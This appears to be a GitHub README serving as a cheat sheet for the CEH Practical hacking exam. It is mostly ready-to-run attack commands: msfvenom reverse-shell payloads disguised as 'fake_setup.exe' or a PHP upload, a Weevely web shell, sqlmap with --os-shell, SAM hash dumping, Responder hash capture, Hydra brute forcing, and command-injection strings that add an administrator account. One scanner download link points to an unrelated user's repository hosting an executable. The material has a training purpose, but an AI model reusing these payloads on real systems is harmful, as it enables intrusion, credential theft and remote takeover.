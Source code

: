 <img src="CEH-PRACTICAL-9-7-2022 (1).png" />  
                                                                                                                          
# Reconnasiance/Footprinting
<details>
  <summary>Recon</summary>

* -r range , Scan Entire Network for ALive host using ARP
```console
:~$ netdiscover -r 192.168.29.1/24
```

* -f switch do not fragment, -l buffer size
```console
:~$ ping <host-ip> -f -l 1300
```
  * __`tracert`__ for windows cmd
```console
:~$ traceroute <host-ip>
```
* [Path Analyzer Pro](https://www.pathanalyzer.com/download.opp/) in traceroute tools, ensure icmp and smart is selected, stop on control is selected
* Start Metasploit Console
```console
:~# msfdb init && msfconsole
:~# msfdb status
```
* Nmap Scanning entire Network

```console
# Don’t ping=> -Pn, SYN scan=> -sS, Aggresive Scan=> -A, Normal_XML and Grepable format all at once=> -oA, Verbose=> -vv 

nmap -Pn -sS -A -oA <Filename> 10.10.1.1/24 -vv
```
* Convert Nmap XML file to [HTML Report](https://nmap.org/book/output-formats-output-to-html/)
```console
xsltproc <nmap-output.xml> -o <nmap-output.html>
```
```console
# Scanning SMB Version for OS Detection using Metaspolit
use scanner/smb/smb_version
show options 
set RHOSTS 10.10.10.8-16 
set THREADS 100 
run
  
#Type hosts again and os_flavor will be visible
  hosts
```
</details>

# Scanning Network
<details>
  <summary>Scan Network</summary>
  
* [Angry IP Scanner](https://angryip.org/download/#windows) of windows to Scan Entire Network
* [Advanced IP Scanner](https://github.com/infovault-Ytube/test1/raw/main/ipscan25.exe) free network scanner to analyze LAN
<img src="AdvancedIPScanner.jpg" />  

</details>
  
# ENUMERATION
<details>
  <summary>Enum</summary>

* [Hyena](https://www.systemtools.com/hyena/download.htm)
Expand local workstation to view Users, Services, User Rights, Scheduled Jobs 

* [NetBIOS Enumerator](http://nbtenum.sourceforge.net/)
Enter IP Range and click scan.

* NBT (NetBIOS over TCP/IP), which helps troubleshoot NetBIOS name resolution issues.
```console
nbtstat -A 204.224.150.3
```
* Accessing Shared Files
```console.
# List All Shared Resources
net view  <IP>

# Connect to Shared Resource
net use
net use \\10.10.10.1\e ""\user:""
net use \\10.10.10.1\e ""/user:""
```
* SNMP Enumeration
```shell
nmap -sU -p 161 10.10.1.2
nmap -sU -p 161 --script=snmp-brute 10.10.1.2

# Expoilt SNMP with Metasploit
msfdb init && msfconsole ↵
use auxilary/scanner/snmp/snmp_login ↵
set RHOSTS 10.10.1.2 ↵
exploit ↵
  
use auxilary/scanner/snmp/snmp_enum ↵
set RHOSTS 10.10.1.2 ↵
exploit ↵
```
* Enum4linux: Enumerating information from Windows and Samba systems
```console
enum4linux -A <Target_IP>
```
</details>
  
  # Vulnerability Analysis
<details>
  <summary>Vulerability</summary>
  
 * Nessus: Assest vulnerability scanner
 * Nikto: Web Server scanner
```console
nikto -h www.example.com tuning 1
  ```
  </details>
  
# System Hacking
<details>
  <summary> Sys password Hacking</summary>

```
# To Dump Windows SAM file hashes
pwDump7.exe> hashes.txt 
```
  > pwDump7.exe : To Dump Windows Hashes [PwDump7](https://www.tarasco.org/security/pwdump_7/pwdump7.zip)
  * [Ophcrack.exe](https://ophcrack.sourceforge.io/download.php?type=ophcrack) : To Crack SAM Hashes to obtain clear Password 
  * [rcrack_gui.exe](http://project-rainbowcrack.com/) : Use Raindow Table to crack hashes
  
  </details>

 
<details>
  <summary> Create A Reverse TCP Connection</summary>

```shell
# creates reverse TCP from windows  machine, send this file to victim machine via python-Webserver/shared resource
msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -f exe LHOST=<attacker_IP> LPORT=444 -o fake_setup.exe  ↵

msfdb init && msfconsole ↵
use exploit/multi/handler ↵
set LHOST=<attacker-IP>  ↵
set LPORT=444 ↵
  run
```
</details>

# Steganography
<details>
<summary> Stego</summary>

#### Hide/unhide text in WhiteSpaces using [snow](http://www.darkside.com.au/snow/)

```shell
SNOW.EXE -C -p 1234 -m "Secret Message"  original.txt ciper.txt
 
# To unhide the hidden text
 
SNOW.EXE -C -p 1234  ciper.txt
```
  
### [OpenStego](https://github.com/syvaidya/openstego/releases) : Hide any data within a cover file like Images
<img src="https://www.openstego.com/image/screenshot/01.png" width="600" height="400" />
<img src="https://www.openstego.com/image/screenshot/02.png" width="600" height="400" />  
  
### [QuickStego](http://cybernescence.co.uk/software-products/QS12Setup.exe): Hide text in pictures without password
<img src="http://quickcrypto.com/content-images/QuickStego_12_Steganography_Software_Ex_sml.jpg" width="600" height="400" /> 
</details>

  
  
#  LLMNR/NBT-NS Poisoning
<details>
<summary> LLMNR/NBT</summary>

> [Responder](https://github.com/lgandx/Responder) : rogue authentication server to capture hashes
>
>> This can be used to get the already logged-in user's password, who is trying to access a shared resource which is not present [Step by Step](https://www.4armed.com/blog/llmnr-nbtns-poisoning-using-responder/)
  
```shell
# In Parrot/Kali OS, 
responder -I eth0  ↵

# In windows, try to access the shared resource, logs are stored at usr/share/responder/logs/SMB<filename>
# To crack that hash, use JohntheRipper
john SMB<filename>  ↵
  
```
  </details>
  
#  Website Hacking/Password Cracking
<details>
<summary>Website Cracking</summary>

* SkipFish : Active Recon for Websites 
  
```console
skipfish -o 202 http://192.168.1.202/wordpress
```

* Wordpress Site Login BruteForce [Step-By-Step](https://www.hackingarticles.in/multiple-ways-to-crack-wordpress-login/)
  
```shell
# Wordpress site only Users Enumeration
wpscan --url http://example.com/ceh --enumerate u 

# Direct crack if we have user/password details

wpscan --url http://192.168.1.100/wordpress/ -U users.txt -P /usr/share/wordlists/rockyou.txt

# Using Metaspoilt
msfdb init && msfconsole
msf > use auxiliary/scanner/http/wordpress_login_enum
msf auxiliary(wordpress_login_enum) > set rhosts 192.168.1.100
msf auxiliary(wordpress_login_enum) > set targeturi /wordpress
msf auxiliary(wordpress_login_enum) > set user_file user.txt
msf auxiliary(wordpress_login_enum) > set pass_file pass.txt
msf auxiliary(wordpress_login_enum) > exploit
  
  
```
### File Upload Vulnerability
```shell
msfvenom -p php/meterpreter/reverse_tcp LHOST=<attacker-ip> LPORT=<attacker-port> -f raw > file.php
  
msfdb init && msfconsole
use multi/handler
set payload php/meterepreter/reverse_tcp
set LHOST=attacker-ip
set LPORT= attcker-port
run

# If incase, metaspolit not working use NetCat and shell code below

```
> [Reverse Shell Cheat Sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) : Use the code, change IP & Port and use it with NetCat listener  
```console
nc -vnl -p 1234
```

> [Weevely](https://www.kali.org/tools/weevely/) : Generate PHP Reverse shell
```shell
  
weevely generate password123 /home/error.php

# Upload the above error.php to website and use the below cmd to get reverse shell

weevely http://domain.com/error.php password123  

```
  
### SQL Injection
> Login bypass with [' or 1=1 --](https://github.com/mrsuman2002/SQL-Injection-Authentication-Bypass-Cheat-Sheet/blob/master/SQL%20Injection%20Cheat%20Sheet.txt) 
> [N-Stalker](https://www.nstalker.com/) : Select OWASP Policy => Scan Website for Vulnerabilites
 
> SQLMAP
  
```shell
#List databases, add cookie values
sqlmap -u "http://domain.com/path.aspx?id=1" --cookie=”PHPSESSID=1tmgthfok042dslt7lr7nbv4cb; security=low” --dbs 
  OR
sqlmap -u "http://domain.com/path.aspx?id=1" --cookie=”PHPSESSID=1tmgthfok042dslt7lr7nbv4cb; security=low”   --data="id=1&Submit=Submit" --dbs  


# List Tables, add databse name
sqlmap -u "http://domain.com/path.aspx?id=1" --cookie=”PHPSESSID=1tmgthfok042dslt7lr7nbv4cb; security=low” -D database_name --tables  
  
# List Columns of that table
sqlmap -u "http://domain.com/path.aspx?id=1" --cookie=”PHPSESSID=1tmgthfok042dslt7lr7nbv4cb; security=low” -D database_name -T target_Table --columns
  
#Dump all values of the table
sqlmap -u "http://domain.com/path.aspx?id=1" --cookie=”PHPSESSID=1tmgthfok042dslt7lr7nbv4cb; security=low” -D database_name -T target_Table --dump
  

sqlmap -u "http:domain.com/path.aspx?id=1" --cookie=”PHPSESSID=1tmgthfok042dslt7lr7nbv4cb; security=low” --os-shell
 
```
* Some links [DVWA:Blind SQL with SQLMap](https://medium.com/hacker-toolbelt/dvwa-1-9-viii-blind-sql-injection-with-sqlmap-ee8d59fbdea7), [DVWA - High Level with SQLMap](https://www.youtube.com/watch?v=IR1JsaSQLMc&ab_channel=Archidote)
  
  
  
</details>

<details>
<summary>Password Cracking</summary>

> Hydra : FTP, SSH, Telnet
  
```console
# SSH
hydra -l username -P passlist.txt 192.168.0.100 ssh
  
 # FTP
hydra -L userlist.txt -P passlist.txt ftp://192.168.0.100
 
# If the service isn't running on the default port, use -s
 hydra -L userlist.txt -P passlist.txt ftp://192.168.0.100 -s 221
  
# TELNET
hydra -l admin -P passlist.txt -o test.txt 192.168.0.7 telnet

# Login form
sudo hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.43 http-post-form "/department/login.php:username=admin&password=^PASS^:Invalid Password!"  
  
```
  
</details>
  
# Cryptography
 <details>
 <summary>Cipering / Encrypting/ Hashes </summary>
   
 #### Hash
 
> Find/Decrypt Hash Online with [Hashes.com](https://hashes.com/en/decrypt/hash)
 
```shell
 # In Kali
 $hash-identifier  
   
 #Decrypt Hashes
 hashcat '5f4dcc3b5aa765d61d8327deb882cf99' /usr/share/wordlists/rockyou.txt
```
> Calculate Hash of text/File by [HashCalc](https://www.slavasoft.com/download.htm) in Windows🪟
 <img src="https://www.slavasoft.com/images/screenshots/hashcalc.png" />
 
> [MD5Calculator](https://www.bullzip.com/download/md5/md5calc(1.0.0.0).zip) in Windows🪟
 <img src="https://www.bullzip.com/products/md5/dialog.png" />

### CryptoForge 
> Encrypt data with Password and only be decoded with cryptoforge by giving password
 <img src="Cryptoforge.jpg" />   

### BCTextEncoder: Text Encode/Decode
   
<img src="https://www.jetico.com/file-downloads/web_help/bctextencoder/img/textEncode.png" />   

### VeraCrypt: Disk Encrypt/Decrypt
> [Step-By-Step-Tutotrial](https://www.veracrypt.fr/en/Beginner%27s%20Tutorial.html)

### CrypTool : Encode/Decode Text (File Extension is .hex)
* File → New → Enter Text → Encrypt/Decrypt → Symmetric (Modern) → RC2 → KEY 05 → Encrypt 
   
* File → Open → Encrypt/Decrypt → Symmetric (Modern) → RC2 → KEY 05 → Decrypt


   <img src="Crytool.jpg" />   

  </details> 

# Android Hacking
<details>
<summary>ADB</summary>

> [Live Demo of ADB](https://www.youtube.com/watch?v=Hvreb4hjsig)

  ```shell
apt-get update
sudo apt-get install adb -y
adb devices -l

# Connection Establish Steps
adb connect 192.168.0.4:5555
adb devices -l
adb shell  

# Download a File from Android using ADB tool
adb pull /sdcard/log.txt C:\Users\admin\Desktop\log.txt 
adb pull sdcard/log.txt /home/mmurphy/Desktop
  
# =================================================================================================== 
  
# Same thing can be done via PhoneSploit tool 
git clone https://github.com/aerosol-can/PhoneSploit
cd PhoneSploit
pip3 install colorama
OR
python3 -m pip install colorama

python3 phonesploit.py

# Type 3 and Press Enter to Connect a new Phone OR Enter IP of Android Device
# Type 4, to Access Shell on phone

pwd
ls
cd sdcard
ls
cd Download

#Download File using PhoneSploit
9. Pull Folders from Phone to PC

Enter the Full Path of file to Download
sdcard/Download/secret.txt

  
 ```  
</details>
  
# Covert TCP
<details>
<summary>Covert</summary>
  
> Covert_tcp [source code](covert_tcp.c)
> Live Demo [Covert TCP Live Demo-Youtube](https://www.youtube.com/watch?v=bDcz4qIpiQ4)

```shell
# Compile the Code  
cc -o covert_tcp covert_tcp.c
  
# Reciever Machine(192.168.29.53)  
sudo ./covert_tcp -dest 192.168.29.53 -source 192.168.29.123 -source_port 9999 -dest_port 8888 -server -file recieve.txt  
 
# Sender Machine(192.168.29.123) 
# Create A Message file that need to be transferred Eg:secret.txt
sudo ./covert_tcp -dest 192.168.29.53 -source 192.168.29.123 -source_port 8888 -dest_port 9999 -file secret.txt

```
  
> [Wireshark Capture](Covert_TCP-Capture.pcapng) Hello  This 123 -
 
<img src="covertCapture.jpg" /> 
  
</details>
  
  
<details>
<summary>Misc</summary>
 
```shell
# If Python version returned above is 3.X
# On Windows, try "python -m http.server" or "py -3 -m http.server"
python3 -m http.server
# If Python version returned above is 2.X
python -m SimpleHTTPServer
```
  
> $python -m SimpleHTTPServer 9000
 
> $python3 -m http.server 9000

> nslookup www.domain.com
  
[FTP Server](https://archive.org/download/file-zilla-server-0-9-5/FileZilla_Server_0_9_5.exe) 
  
[YOUTUBE](https://www.youtube.com/watch?v=_4a4qSaIIrw)
  
> Command Injection ( IP| net user Test_user /Add )
  (| net user)
  (| net localgroup Administrators Test_user /Add)
  
File Upload Vul::
file.php
File.php.jpg
Add GIF98 and upload and rename .php.jgp

  Chain attack to execute, go in Command SHell and |copy c:\wamp64\www\DVWA\hackable\uploads\filename.php.jpg c:\wamp64\www\DVWA\hackable\uploads\shell.php
  
> Insert Username Password in Website: [blah;insert into login values ('john','pass123'); --]  
</details>
  
  
  ### CEH Practical Questions:
https://cutt.ly/ceh-practical-git-udemy

Contact Me📨 for In-person Training/Queries: sendmehi@outlook.com
